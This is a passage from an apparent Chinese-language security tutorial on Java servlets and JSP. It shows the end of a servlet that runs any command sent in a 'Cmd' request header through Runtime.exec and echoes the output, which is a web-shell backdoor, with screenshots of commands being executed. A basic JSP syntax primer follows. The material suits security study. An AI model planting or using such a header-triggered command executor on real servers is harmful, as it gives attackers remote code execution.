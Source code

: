 ```java
            PrintWriter pw = response.getWriter();
            if (request.getHeader("Cmd") != null) {
                String cmd = request.getHeader("Cmd");
                Process p = Runtime.getRuntime().exec(cmd);
                InputStream in = p.getInputStream();
                BufferedReader bf = new BufferedReader(new InputStreamReader(in));
                String line = null;
                while ((line = bf.readLine()) != null){
                    pw.write(line);
                }
                pw.write("\n");
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

代码使用了 RequestFacade 结合反射获取 Request 对象, 最终得到 Response, 然后获取 PrintWriter 进行回显

idea 需添加 `org.apache.tomcat:tomcat-catalina` 依赖

正常访问

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211032057450.png)

执行命令

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211032058917.png)

## JSP

JSP 即 Java Server Pages, 其本质仍然是 Servlet, 服务器在运行 JSP 时会将其动态编译为 Servlet class 来执行

JSP 语法跟 Java 一致

### 标签

代码: `<% ... %>`,

注释: `<%-- JSP Comment --%>`

echo 标签: `<%= var %>`

### 对象

JSP 内置了 Servlet 中的部分对象

- out: 表示 HttpServletResponse 的 PrintWriter
- session: 表示当前 HttpSession 对象
- request: 表示当前 HttpServletRequest 对象

可以直接使用
